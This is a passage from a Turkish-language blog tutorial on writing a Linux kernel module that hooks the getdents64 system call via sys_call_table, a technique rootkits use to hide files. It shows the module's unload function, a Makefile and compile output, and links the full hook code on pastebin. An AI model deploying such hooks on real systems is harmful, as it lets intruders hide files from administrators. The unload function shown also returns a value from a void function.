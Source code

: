 **LKM**'mizi oluşturup **kernel**'e dahil ettikten sonra çalışacak fonksiyon.

**ÖNEMLİ** : Buradaki **sys_call_table = (void*)0xsizinsyscalltableadresiniz;**

Kısmını kendi **sys_call_table** adresiniz ile değiştirmeniz gerekli. 

Nasıl bulacağınızı yukarıda anlatmıştım eğer blog içerisinde bulamadıysanız hemen **CTRL + F** yapıp **System.map** bunu arayın orada **sys_call_table** adresinin nasıl bulunacağını anlattım.

Şimdi geldik eğer bunu silmek istersek kısmına :

```
static void __exit getdents_hook_exit(void)
{
  sys_call_table[__NR_getdents64] = org_getdents64;
  set_page_ro(sys_call_table);
        return 0;
}
```

Eğer oluşturduğumuz **LKM**'yi silersek oluşturduğumuz sahte **Hook** fonksiyonunu **sys_call_table**'den çıkartıp herşeyi tekrar eski haline çevirmesini söylüyoruz programımıza aynı zamanda **table entry**'ide tekrardan **Read-Only** yapıyoruz.

Şimdi tüm bu yazdığımız kodları tek bir bütün haline almaya geldi sıra hepsini pastebine yüklüyorum. İçerisinden değiştirmeniz gereken tek kısım **sys_call_table** adresi.

Kod : [System Call Hooking Code](https://pastebin.com/a4MF1J7T)

# Make
Şimdi sıra geldi bu kodu derlemeye.

**Makefile** isminde bir dosya oluşturun ve yukarıda yazdığımız kodu nasıl kaydettiyseniz burada bulunan **syscallhook.o** ismini onunla değiştiriniz.

```
obj-m += syscallhook.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

**make** komutunu çalıştırıp derledikten sonra çıktımız :

```
root@heyhey:~/hey# make
make -C /lib/modules/4.4.0-78-generic/build M=/root/hey modules
make[1]: Entering directory `/usr/src/linux-headers-4.4.0-78-generic'
  CC [M]  /root/hey/syscallhook.o
/root/hey/syscallhook.c: In function ‘hook_getdents64’:
/root/hey/syscallhook.c:36:21: warning: assignment from incompatible pointer type [enabled by default]
                 cur = (struct linux_dirent*) ((char*)dirp + i);
                     ^
/root/hey/syscallhook.c: In function ‘getdents_hook_init’:
/root/hey/syscallhook.c:63:3: warning: passing argument 1 of ‘set_page_rw’ makes integer from pointer without a cast [enabled by default]
   set_page_rw(sys_call_table);
   ^
/root/hey/syscallhook.c:41:5: note: expected ‘long unsigned int’ but argument is of type ‘void **’
 int set_page_rw(unsigned long addr)
     ^
/root/hey/syscallhook.c: In function ‘getdents_hook_exit’:
/root/hey/syscallhook.c:71:3: warning: passing argument 1 of ‘set_page_ro’ makes integer from pointer without a cast [enabled by default]
   set_page_ro(sys_call_table);
```